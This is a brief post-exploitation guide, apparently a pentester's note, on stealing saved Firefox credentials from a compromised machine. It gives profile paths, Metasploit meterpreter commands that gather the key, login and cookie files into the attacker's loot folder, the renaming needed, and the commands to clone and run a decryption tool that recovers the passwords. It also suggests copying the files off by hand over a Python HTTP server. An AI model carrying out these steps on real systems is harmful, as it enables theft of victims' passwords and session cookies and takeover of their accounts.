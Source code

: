 ## Locations
**Windows**: C:/Users/< User >/AppData/Roaming/Mozilla/Firefox/Profiles
**Mac**: ~/Library/Application Support/Firefox/Profiles
**Linux**: ~/.mozilla/firefox/Profiles


If you have meterpreter shell you can check if firefox is in the system .
	`run post/windows/gather/enum_applications`
And if the Mozilla Firefox is in the output, that means firefox is installed.

You can now use 
	`run post/multi/gather/firefox_creds`
to copy the creds in your local system, it should copy four files into ~/.msf4/loot
make a new directory and put the files in there
`mkdir <Directory name>`
To use the decrypt tool you gotta rename the files

if the file has **cert** in the name >  **cert9.db**`
if the file has **cook** in the name > **cookies.sqlite**
if the file has **key** in the name > **key4.db**
if the file has **logi** in the name > **logins.json**

Now thats done git clone this and decrypt the files.
```bash
git clone https://github.com/unode/firefox_decrypt
python3 firefox_decrypt/firefox_decrypt.py <Directory>
```

If you don't have meterpreter shell you just gotta do it manually with python3 -m http server or someway to get the files across.

Done!
